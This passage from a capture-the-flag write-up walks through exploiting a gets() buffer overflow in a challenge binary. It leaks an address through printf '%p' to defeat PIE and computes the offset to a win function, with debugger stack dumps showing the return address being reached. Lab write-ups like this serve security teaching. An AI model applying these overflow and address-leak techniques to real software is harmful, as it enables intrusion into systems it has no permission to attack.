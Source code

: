 `%p` will load the first argument passed to `printf`, `0x55662af77334`.
Here, the memory address of `salty_spitoon` is `0x000055662af77289`.
The distance for both of that address is the same,
even with PIE enabled.
We can calculate the distance of `0x55662af77334` to `0x000055662af77289`, equal to `-171`.
This means that on the real instance, we can substract `171` from the output of option 2 to get the memory address of `salty_spitoon` for that session!

### Payload

`gets()` will continue to read input until it meet end of file or a newline character.
It could pass the buffer size of `60` (`char buf[60]`),
allowing us to overwrite the memory after it.
That's what's called overflow!

Let's test it out first.
Let see what our input would be with the input `123456789012345678901234567890123456789012345678901234567890ABCD` (64 byte):

```
0x00007ffe3948f850│+0x0000: "12345678901234567890123456789012345678901234567890[...]"    ← $rax, $rsp
0x00007ffe3948f858│+0x0008: "90123456789012345678901234567890123456789012345678[...]"
0x00007ffe3948f860│+0x0010: "78901234567890123456789012345678901234567890ABCD"
0x00007ffe3948f868│+0x0018: "567890123456789012345678901234567890ABCD"
0x00007ffe3948f870│+0x0020: "3456789012345678901234567890ABCD"
0x00007ffe3948f878│+0x0028: "12345678901234567890ABCD"
0x00007ffe3948f880│+0x0030: "901234567890ABCD"
0x00007ffe3948f888│+0x0038: "7890ABCD"
0x00007ffe3948f890│+0x0040: 0x0000000000000000   ← $rbp
0x00007ffe3948f898│+0x0048: 0x00007f1ffd12dd90  →  <__libc_start_call_main+0080> mov edi, eax
```

There's the return address!
We need to extend our input so that we can reach that memory address!
But to prevent unwanted behaviour,
our payload should not change the stack as much as it could be.
Here's how it looks right before `gets` is called:

```
0x00007ffdad3f8d30│+0x0000: 0x0000000000000000   ← $rsp, $rdi
0x00007ffdad3f8d38│+0x0008: 0x0000000000000000
0x00007ffdad3f8d40│+0x0010: 0x0000000000000000
0x00007ffdad3f8d48│+0x0018: 0x0000000000000000
0x00007ffdad3f8d50│+0x0020: 0x0000000000000000
0x00007ffdad3f8d58│+0x0028: 0x0000000000000000
0x00007ffdad3f8d60│+0x0030: 0x0000000000000000
0x00007ffdad3f8d68│+0x0038: 0x0000000100000000
0x00007ffdad3f8d70│+0x0040: 0x0000000000000001   ← $rbp
0x00007ffdad3f8d78│+0x0048: 0x00007f1ffd12dd90  →  <__libc_start_call_main+0080> mov edi, eax
```

Our payload will be something like that,
to put it bluntly.
